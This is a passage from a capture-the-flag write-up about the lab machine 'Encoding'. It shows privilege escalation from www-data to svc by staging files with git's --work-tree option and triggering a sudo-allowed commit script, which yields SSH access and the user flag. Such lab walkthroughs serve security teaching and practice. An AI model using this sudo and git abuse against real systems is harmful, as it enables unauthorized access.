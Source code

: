     
    
    www-data@encoding:~/image$ git --work-tree /etc/ add /etc/hostname 
    www-data@encoding:~/image$ git status
    On branch master
    Changes to be committed:
      (use "git restore --staged <file>..." to unstage)
            new file:   hostname
    
    Changes not staged for commit:
      (use "git add/rm <file>..." to update what will be committed)
      (use "git restore <file>..." to discard changes in working directory)
            deleted:    hostname
    

Not it shows up as new and deleted (which is a bit weird, but I’m doing weird
things with `git`).

#### Trigger

`sudo` and the script will commit to the repo now since there are changes to
be committed.

    
    
    www-data@encoding:~/image$ sudo -u svc /var/www/image/scripts/git-commit.sh
    [master b40dd01] Commited from API!
     1 file changed, 1 insertion(+)
     create mode 100644 hostname
    

It works, and I can SSH as svc:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen svc@haxtables.htb
    Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-58-generic x86_64)
    ...[snip]...
    svc@encoding:~$ 
    

And get the user flag:

    
    
    svc@encoding:~$ cat user.txt
    20861ae5************************
    

There’s also a SSH key in the user’s home directory which I can grab for
future use (if I overwrite the previous `authorized_keys` I’ll need to re-add
`id_rsa.pub`):

    
    
    svc@encoding:~/.ssh$ ls
    authorized_keys  id_rsa  id_rsa.pub  known_hosts
    

## Shell as root

### Enumeration
